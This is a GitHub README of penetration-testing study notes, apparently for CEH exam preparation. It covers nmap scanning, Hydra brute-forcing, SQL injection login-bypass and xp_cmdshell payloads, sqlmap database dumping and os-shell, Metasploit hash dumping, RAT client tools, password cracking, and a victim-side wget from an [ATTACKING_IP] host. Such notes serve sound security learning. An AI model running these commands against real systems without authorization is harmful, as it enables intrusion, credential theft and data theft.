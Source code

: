 # OffSec-Notes
Repository created for keeping notes on various topics, vulnerabilities and tools useful in penetration testing. 

# Reconnaissance

### Some Common Ports

 Port     | Service  | Protocol          |
| --------|:--------:| -----------------:|
| 21      | FTP      |    TCP, UDP, SCTP |
| 22      | SSH      |    TCP, UDP, SCTP |
| 137     | NetBIOS  |    TCP, UDP       |
| 161     | SNMP     |    UDP            |
| 445     | SMB      |    TCP, UDP       |
| 3389    | RDP      |    TCP            |

<details>
<summary>nmap</summary>

```sudo nmap -sn 192.168.0.0/24``` - Check for hosts only, disable port scan (-sn).

```nmap -sT [IP]``` - Use TCP connect scan (-sT) if not root/sudo user. Only option for non sudoers.

```sudo nmap [IP] ``` -  By default nmap uses TCP SYN scan (-sS), but this should be used only from root/sudo user.

```sudo nmap -sV -O -v [IP] -p- -oN [Filename.txt]``` - Default SYN scan with enabled version detection (-sV) and OS detection (-O). Additional flags - verbose mode (-v), all ports (-p-), output to .txt file (-oN). 

```sudo nmap -A [IP]``` - Default SYN scan with enabled OS detection, version detection, script scanning, and traceroute (-A).

```sudo nmap --script http-methods [IP]``` - Default SYN scan with specific script (--script). As an example script *http-methods* (enumerates allowed HTTP methods) is used.

```sudo nmap -sU [IP]``` - Performs UDP scan (-sU).

```-n``` - Tells Nmap to never do reverse DNS resolution on the active IP addresses it finds. Since DNS can be slow even with Nmap's built-in parallel stub resolver, this option reduces scanning times.

Useful nmap scripts:

 Script   | Service  | Description |
|:--------|:--------|:-----------|
| smb-os-discovery.nse    | SMB (445)  | Enumerate OS, domain name,etc. |
| smb-enum-users.nse      | SMB (445)  | Used to enumerate all users on remote Windows system using SAMR enumeration and LSA bruteforcing. |
| smb-enum-shares.nse     | SMB (445)  | SMB shares. |

</details>

# Brute-force
<details>
<summary>Hydra</summary>

```sudo hydra -l <username> -P <wordlist> [URL] ssh``` - Basic Hydra command for brute-forcing ssh password. Works similarly with other protocols such as FTP.

```sudo hydra -l <username> -P <wordlist> [base_URL] http-post-form "<path>:<login_credentials>:<invalid_response>"``` - Hydra command for HTTP POST form. Path need to be specified seperately from base URL.

</details>

# SQL Injection

For SQL injection focused task either perform the injection manually or use sqlmap tool. Check fields using single quote or encoded single quote.

```blah' or 1=1 --``` - Basic login bypass payload. Adjust for specific case.

```blah';exec master..xp_cmdshell 'ping [URL] -l 65000 -t'; --``` - Example command to pop shell through sql injection.

<details>
<summary>sqlmap</summary>

```sudo sqlmap -u “[URL]” --cookie="[cookie_value]" --dbs``` - Initial command to enumerate databases (--dbs). Add cookie values if necessary (--cookie).

```sudo sqlmap -u “[URL]” -D [database_name] --tables``` - Enumerate tables in the specified database (--tables).

```sudo sqlmap -u “[URL]” -D [database_name] -T [table_name] --columns``` - Enumerate columns in the specified table (--columns).

```sudo sqlmap -u “[URL]” -D [database_name] -T [table_name] --dump``` - Dump all data from table (--dump).

```sudo sqlmap -u “[URL]” --os-shell``` - Pop shell through sqlmap (--os-shell).

```sudo sqlmap -r [filename] --batch -v 5 | tee [output]``` - Use sqlmap with request from file (-r), for example, captured by Burp. This command also uses standard behaviour (--batch) and saves the output to a file (| tee)


</details>

# Metasploit

### Handy Metasploit modules

 Module    | Service  | Description       |
| --------|:--------:|:-----------------|
| smb_login     | SMB      |    Brute-force SMB credentials. |
| smb_version   | SMB      |    Scan for SMB version.        |
| smb_enumshares| SMB      |    Enumerates SMB shares.       |
| smart_hashdump   | Windows(any)    | ```run post/windows/gather/smart_hashdump``` - Use this when in meterpreter shell and want to search for Windows hashes.        | 
| exploit/multi/handler| Any      |    Use this to catch shell.       |

<details>
<summary>msfvenom</summary>


</details>

# Android hacking
<details>
<summary>ADB</summary>

```adb devices``` - Check for devices connected to the host.

```adb shell``` - Enter phone terminal.

```adb shell pm path [package_name]``` - Check path for given app package.

Package names can be viewed via Google Play store. For example: https://play.google.com/store/apps/details?id=com.swapcard.apps.android.blackhat&hl=en_IN

Package name in this case is "com.swapcard.apps.android.backhat"

![image](https://github.com/MaxLazerhawk/OffSec-Notes/assets/53828427/31e2fce7-9d1e-4b85-9ae3-49e13fc81c48)

</details>

# Cryptography
<details>
<summary>hashcat</summary>
Useful sites for online hashes:
  
- https://hashes.com
- https://hashes.com/en/tools/hash_identifier

Can also use hashid to identify hash type:

```hashid -m [hash]```
- m to show corresponding hashcat mode.

Standard hashcat command:

```hashcat -a 0 -m [hash_mode_id] [hash] [wordlist]``` 
- Straight attack mode suited for wordlist (-a 0).
- Specified hash type (-m).

If hashcat does not work consider using John the Ripper.

------

</details>

<details>
<summary>John the Ripper</summary>

```john --format=nt --wordlist=<path-to-wordlist> <hash>```
- Set hash format (--format=).
- Set wordlist (--wordlist=).

For hash formats check:
https://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats

------

</details>

</details>

<details>
<summary>Other Tools</summary>

**Hashmyfiles** - For calculating and comparing hashes of files. Can be used to compare hashes and find tempered data.

**CryptoForge** - For easy encrypting and decrypting using password.

**BcTextEncodes** - For encoding and decoding text in file (.hex). 

**Cryptool** - For encryption/decryption of hex data - by manipulating the key length. This tool can perform brute-force analysis.

**Veracrypt** - For hiding and encrypting disk partitions. Can also be used to open encrypted disk partition (mount). Outer and inner partitions has separate passwords.

</details>

# Malware Threats

<details>
<summary>RAT's</summary>

You need to target the right IP and port number (try default first).
You need to use the right tool from the available.

Example tools to establish a connection to a RAT:
- njRAT
- MoSucker
- ProRat
- Theef
- HTTP RAT

</details>

<details>
<summary>Malware Analysis Tools</summary>

**DIE (Detect it Easy)** - Scan and analyze .elf files.

</details>

# Steganography
<details>
<summary>Tools</summary>

**SNOW** - [placeholder]. 

**Steghide** - [placeholder].

```steghide extract -sf [file]``` - Extract confidential file from, for example, picture .jpg file.

```stegcracker <file> [wordlist]``` - Crack password protected file.

</details>

# Traffic Sniffing
<details>
<summary>Wireshark</summary>

```tcp.flags.syn==1``` - Filter apply example, this one searches for SYN packets.

Follow streams to check for interesting data. Rightclick on packet -> Follow -> TCP Stream (can be other protocols).

To check for files in the conversations use export option. File -> Export -> HTTP (can be other protocol) -> sort by content-type to see if there are any .txt files for example.

![image](https://github.com/MaxLazerhawk/OffSec-Notes/assets/53828427/b0417cc6-a20b-450a-bce0-4588031e210e)


### View capture file properties to look for comments.
![image](https://github.com/MaxLazerhawk/OffSec-Notes/assets/53828427/39f702e0-c213-457b-9695-cb336a4488b9)


</details>

# Transfering Files

```python3 -m http.server 9000``` - Set up HTTP server on attacjubg machine.

```wget http://[ATTACKING_IP]:9000/[filename]``` - Use on victim machine to download.

OR use SCP, SFTP or FTP protocols.

# Wireless Attacks
<details>
<summary>aircrack-ng</summary>
Used to crack .cap files. WEP, WPA/WPA2 wireless networks.

```aircrack-ng [filename].cap```

- Works for WEP.
- If the capture file has sufficient packets aircrack will be able to crack it.

```aircrack-ng [filename].cap -w [file]``` 

- Works for WPA.
- Dictionary added (-w).

</details>

# Useful Links

### Notes:

https://github.com/infovault-Ytube/CEH-Practical-Notes

https://github.com/CyberSecurityUP/Guide-CEH-Practical-Master

https://github.com/TheCyberpunker/CEH-Practical-Notes

https://chirag-singla.notion.site/chirag-singla/CEH-Practical-Preparation-7f2b77651cd144e8872f2f5a30155052

https://ceh-practical.cavementech.com/

### Tool Documentation:

https://github.com/horsicq/Detect-It-Easy
